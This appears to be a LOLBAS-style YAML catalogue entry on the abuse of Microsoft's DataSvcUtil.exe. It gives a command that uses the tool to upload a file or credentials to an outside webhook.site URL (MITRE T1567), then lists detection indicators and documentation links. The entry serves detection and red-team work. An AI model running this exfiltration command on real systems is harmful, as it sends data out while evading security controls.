 ```yaml
---
Name: DataSvcUtil.exe
Description: DataSvcUtil.exe is a command-line tool provided by WCF Data Services that consumes an Open Data Protocol (OData) feed and generates the client data service classes that are needed to access a data service from a .NET Framework client application.
Author: "Ialle Teixeira"
Created: "01/12/2020"
Commands:
  - Command: DataSvcUtil /out:C:\\Windows\\System32\\calc.exe /uri:https://webhook.site/xxxxxxxxx?encodedfile
    Description: Upload file, credentials or data exfiltration in general
    Usecase: Upload file
    Category: Upload
    Privileges: User
    MitreID: T1567
    MitreLink: https://attack.mitre.org/techniques/T1567/
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
Code_Sample:
  - Code: https://gist.github.com/teixeira0xfffff/837e5bfed0d1b0a29a7cb1e5dbdd9ca6
Detection:
  - IOC: The DataSvcUtil.exe tool is installed in the .NET Framework directory.
  - IOC: Preventing/Detecting DataSvcUtil with non-RFC1918 addresses by Network IPS/IDS.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching DataSvcUtil.
Resources:
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/wcf-data-service-client-utility-datasvcutil-exe
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/generating-the-data-service-client-library-wcf-data-services
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/how-to-add-a-data-service-reference-wcf-data-services
Acknowledgement:
  - Person: Ialle Teixeira
    Handle: "@NtSetDefault"
---
```

